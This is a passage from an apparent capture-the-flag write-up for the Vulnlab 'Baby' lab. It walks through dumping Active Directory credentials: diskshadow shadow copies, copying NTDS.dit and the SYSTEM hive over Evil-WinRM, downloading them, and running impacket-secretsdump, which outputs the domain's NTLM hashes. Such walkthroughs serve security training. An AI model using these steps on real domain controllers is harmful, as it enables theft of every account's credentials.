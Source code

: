 Now, upload the script to the target machine using WinRM:

```powershell
*Evil-WinRM* PS C:\Users\caroline.robinson> upload shadow.txt
```

```                                        
Info: Uploading /home/kali/Vulnlab/Baby/shadow.txt to C:\Users\caroline.robinson\shadow.txt                                                         
                                        
Data: 160 bytes of 160 bytes copied
                                        
Info: Upload successful!
```

Next, execute the script with diskshadow:

```powershell
*Evil-WinRM* PS C:\Users\caroline.robinson> mkdir c:\exfil
*Evil-WinRM* PS C:\Users\caroline.robinson> diskshadow /s shadow.txt
```

```
The shadow copy was successfully exposed as z:\.
```

Now that we have a shadow copy, we can extract the NTDS.dit database and download it on our machine:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Temp> robocopy /b z:\windows\NTDS\ . ntds.dit
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Temp> download ntds.dit
```

```              
Info: Downloading C:\Users\Caroline.Robinson\Temp\ntds.dit to ntds.dit
download successful!
```

To decrypt NTDS.dit, we also need the SYSTEM registry hive:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Temp> reg save HKLM\SYSTEM .\system
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Temp> download system
```

Now that we have both NTDS.dit and SYSTEM, we can dump all domain user credentials:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```
[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:0cd2b3a4d77ea8fd362110e0cd8d3f10:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
```